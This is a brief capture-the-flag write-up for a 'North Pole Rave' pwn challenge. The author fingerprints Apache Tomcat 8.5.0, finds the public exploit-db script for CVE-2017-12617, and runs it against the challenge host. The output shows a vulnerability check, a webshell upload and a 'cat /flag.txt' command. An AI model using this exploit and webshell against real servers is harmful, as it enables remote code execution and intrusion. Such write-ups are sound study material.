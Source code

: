 # Challenge

It's happening!! On OCT 31 the annual North Pole Rave will kick off! And DJ Oiler is releasing his new album!
Look here for all the details of the event!

http://santasdisco.norwayeast.azurecontainer.io:8080/

> **Hint:** I wonder why the skit "Dinner for One" comes to mind?

# Writeup

Started by checking the image and source, found nothing. Tried custom urls (added /test) and got an error which gave ``Apache Tomcat/8.5.0`

As this is pwn I guess it is exploit on this older software. Going over to [exploit-db](https://www.exploit-db.com) and searching for Tomcat gave this result:

[Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)](https://www.exploit-db.com/exploits/42966)

Downloaded the python script, saw it takes -u url to check if it is pwnable.

```
$ python3 42966.py -u http://santasdisco.norwayeast.azurecontainer.io:8080/

Poc Filename  Poc.jsp
File Created ..
http://santasdisco.norwayeast.azurecontainer.io:8080/ it's Vulnerable to CVE-2017-12617
http://santasdisco.norwayeast.azurecontainer.io:8080//Poc.jsp
```

Then this script also had possibility for webshell as shown by the --help argument:

```bash
$ python3 42966.py -u http://santasdisco.norwayeast.azurecontainer.io:8080/ -p toffe

Uploading Webshell .....
$ cat /flag.txt
b"
\n    
\n    
\n    
\n    \n    \n
l
```

There we have it. Oh itt kitt that cat? wtf :P 

